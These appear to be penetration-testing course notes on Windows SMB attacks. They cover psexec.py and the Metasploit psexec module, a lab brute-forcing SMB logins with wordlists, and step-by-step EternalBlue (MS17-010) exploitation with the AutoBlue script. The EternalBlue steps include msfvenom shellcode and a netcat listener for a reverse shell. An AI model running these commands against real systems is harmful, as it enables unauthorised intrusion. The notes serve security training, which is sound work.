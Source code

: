open new tab 

- psexec.py (allows you to authenticate with target system)
	- psexec.py Adminstrator@targetip command_that_you_want_to_execute 
		- psexec.py Adminstrator@targetip cmd.exe ![[Pasted image 20230703125815.png]]
		- extend this attack with metasploit module to get meterpreter session 
			- search psexec 
			- use exploit/windows/smb/psexec 
			- show options (set rhost to targetip and set smbpassword en username )

------ LAB -------- 
**Objective:** Exploit the SMB service to get a meterpreter on the target and retrieve the flag!
- Dictionaries to use:
- /usr/share/metasploit-framework/data/wordlists/common_users.txt
- /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt 

![[Pasted image 20230703152541.png]]![[Pasted image 20230703153551.png]]
![[Pasted image 20230703154518.png]]

### Exploiting Windows MS17-010SMB Vulnerability (EternalBlue) - CVE-2017-0144

- EternelBlue is the name given to a collection of Windows vulnerabilities that allows remote code execution 
- Developed by NSA and was leaked by Shadow Brokers in 2017 
- EternelBlue takes advantage of vulnerability in the Windows SMBv1 protocol that allows attackers to send specially crafted packets that consequently facilitate the execution of arbitrary commands 
- The EternalBlue exploit was used in the WannaCry ransomware attack 
- The vulnerability affects multiple versions of Windows (both 32 and 64 bit)
- Microsoft released a patch in 2017
- The EthernalBlue exploit has a MSF auxiliary module that can be used to check if a target system if vulnerable to the exploit and also has an exploit module that can be used to exploit the vulnerability on unpatched systems. 
- The EthernalBlue exploit module can be used to exploit vulnerable Windows systems and consequently provide us with a privileged meterpreter session on the target system 
- tool: ![[Pasted image 20230704130440.png]]

Demo 

- Nmap to check smb service: **sudo nmap -sV -p 445 -O target** 
	- -O to check operating system 
- To check if target is vulnerable for eternal blue exploit use the following nmap script: **sudo nmap -sV -p 445 --script=smb-vuln-ms17-010 target** 

Manual exploitation: Tool used: https://github.com/3ndG4me/AutoBlue-MS17-010 
1. Clone the repository (in kali repository) (check requirement install python)
2. navigate into shellcode directory 
3. give the shell_prep.sh executable permissions: chmod +x shell_prep.sh 
4. execute the bash script: ./shell_prep.sh 
5. say yes to msfvenom, add ip of kali vm (ifconfig), Lport (the port you want to listen to for the connection once the payload is executed on the target), choose regular shell, select stageless payload  ![[Pasted image 20230704140223.png]]
6. set up netcat listner in a different terminal: nc -nvlp 1234 
7. chmod +x externalblue_exploit7.py![[Pasted image 20230704140431.png]]![[Pasted image 20230704140522.png]]
			green = executable 
8. run the exploit: python eternalblue_exploit7.py targetip shellcode/sc_x64.bin 
9. go to terminel with the netcat listner - you see a command shell on the target system 
